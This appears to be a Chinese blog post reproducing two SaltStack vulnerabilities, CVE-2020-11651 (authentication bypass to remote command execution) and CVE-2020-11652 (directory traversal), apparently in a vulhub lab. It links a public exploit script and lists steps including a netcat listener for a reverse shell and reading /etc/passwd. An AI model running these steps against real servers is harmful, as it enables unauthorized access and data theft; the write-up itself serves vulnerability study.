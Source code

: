 ```yaml
---
title: saltstack
date: 2020-06-13 14:45:52
categories: 漏洞复现
tags: saltstack
---
```


#### 背景

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具SaltStack 是基于 Python 开发的一套C/S架构配置管理工具，通过部署SaltStack，运维人员可以在成千万台服务器上做到批量执行命令，根据不同业务进行配置集中化管理、分发文件、采集服务器数据、操作系统基础及软件包管理等，SaltStack是运维人员提高工作效率、规范业务配置与操作的利器。

国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞。

<!--more-->

##### 影响版本

* SaltStack < 2019.2.4
* SaltStack < 3000.2

#### 复现过程

##### 认证绕过(CVE-2020-11651)

脚本：<https://github.com/heikanet/CVE-2020-11651-CVE-2020-11652-EXP/>

1.先在监听机用Nc监听：

`nc -lvnp 3950`

2.运行脚本

`python3 2020-11651.py`

3.输入目标IP

4.选择[4]反弹shell

输入监听机IP和端口

![](http://cdn.laohuan.art/2020-06-13_14-18-58.png)

4.已获得shell

![](http://cdn.laohuan.art/2020-06-13_14-19-52.png)



##### 目录遍历漏洞（CVE-2020-11652）

1.使用脚本

`python3 CVE-2020-11651.py`

2.输入目标IP

3.选择【2】读取文件

输入要读取的路径和文件

`etc/passwd`

![](http://cdn.laohuan.art/2020-06-13_14-25-54.png)

#### 参考链接

* <https://github.com/vulhub/vulhub/tree/master/saltstack/CVE-2020-11651/>

* <https://www.cnblogs.com/8ling/p/12823524.html/>

